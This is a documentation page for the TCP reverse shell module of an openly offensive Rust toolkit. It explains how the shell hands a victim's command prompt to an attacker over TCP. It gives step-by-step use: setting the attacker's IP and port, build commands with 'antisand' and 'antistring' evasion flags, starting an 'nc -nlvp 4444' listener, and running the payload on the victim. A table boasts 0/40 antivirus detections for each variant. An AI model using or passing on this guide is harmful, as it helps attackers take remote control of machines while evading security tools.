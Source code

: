```yaml
---
title: "TCP Reverse Shell"
datatable: true
---
```


# RCO: TCP Reverse Shell

[![TCP reverse shell version unavailable](https://img.shields.io/crates/v/tcp_reverse_shell?label=tcp_reverse_shell)](https://github.com/kmanc/remote_code_oxidation/tree/master/tcp_reverse_shell)

<div class="datatable-begin"></div>

Target OS | Demo
--------- | ----
Linux     | [![tcp_reverse_shell_linux](/assets/gifs/tcp_reverse_shell.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/tcp_reverse_shell.gif)
Windows   | [![tcp_reverse_shell_windows](/assets/gifs/tcp_reverse_shell_windows.gif)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/gifs/tcp_reverse_shell_windows.gif)

<div class="datatable-end"></div>

## How it works

The reverse shells for both Linux and Windows work by establishing a [Transmission Control Protocol (TCP) session](https://www.scottklement.com/rpg/socktut/overview.html) from the victim machine to the attacking machine. Then a Terminal (Linux) or Command Prompt (Windows) process starts with its [standard input](https://en.wikipedia.org/wiki/Standard_streams#Standard_input_(stdin)), [standard output](https://en.wikipedia.org/wiki/Standard_streams#Standard_output_(stdout)), and [standard error](https://en.wikipedia.org/wiki/Standard_streams#Standard_error_(stderr)) all assigned to the TCP session. This means that input commands and output results are read from and written to (respectively) the TCP stream.


## Using it

1.  *[Not shown in demo]* Open [the config file](https://github.com/kmanc/remote_code_oxidation/blob/master/rco_config/src/lib.rs) 
and change the IP address and port to match the IP address of your attacking machine and the port you will use for a listener respectively
2.  *[Not shown in demo]* Compile the executable
    1.  For Linux targets
    ```commandline
    cargo build -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
    2.  For Windows targets
    ```commandline
    cargo build --target x86_64-pc-windows-gnu -p tcp_reverse_shell [antisand][,][antistring]] --release
    ```
3.  Start a netcat listener on the attacking machine on the same port you configured in step 1
```commandline
nc -nlvp 4444
```
4.  Execute the payload on the victim machine
5.  Return to the listener and enter desired commands for the victim machine to run


## Detection rates

<div class="datatable-begin"></div>

Target OS | Features                      | Detections                             | Screenshot
--------- | ----------------------------- | -------------------------------------- | ----------
Linux     | None                      | [0 / 40](https://kleenscan.com/scan_result/a940621ddd4de3ac694ab97584536a1e0a06a222f174d023051c5c7786cb02ce) | [![tcp_reverse_shell_linux](/assets/images/linux/shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/linux/shell.png)
Windows   | None                      | [0 / 40](https://kleenscan.com/scan_result/3125f79d0b309eaecab29d4dbd8fb1521a53ca9bbd0f0b08f469a9c21cb0cb7b) | [![tcp_reverse_shell_windows](/assets/images/windows/shell.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell.png)
Windows   | `antisand`                | [0 / 40](https://kleenscan.com/scan_result/5554067d19d276e3b9c85967d1c0044bdf3d1ab3ca36be816cc4f80d0296df1b) | [![tcp_reverse_shell_windows_antisand](/assets/images/windows/shell_antisand.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antisand.png)
Windows   | `antisand,antistring`     | [0 / 40](https://kleenscan.com/scan_result/a0dc07b781618acdbc07c32cb12e5a41a860904672c288ba860a830e645eaaf8) | [![tcp_reverse_shell_windows_antisand_antistring](/assets/images/windows/shell_antisand_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antisand_antistring.png)
Windows   | `antistring`              | [0 / 40](https://kleenscan.com/scan_result/2430b38a062a6aa57ac52f508308bcc171b258fc04c06d9d05ae39c0bd1e7417) | [![tcp_reverse_shell_windows_antistring](/assets/images/windows/shell_antistring.png)](https://raw.githubusercontent.com/kmanc/remote_code_oxidation/main/docs/assets/images/windows/shell_antistring.png)

<div class="datatable-end"></div>
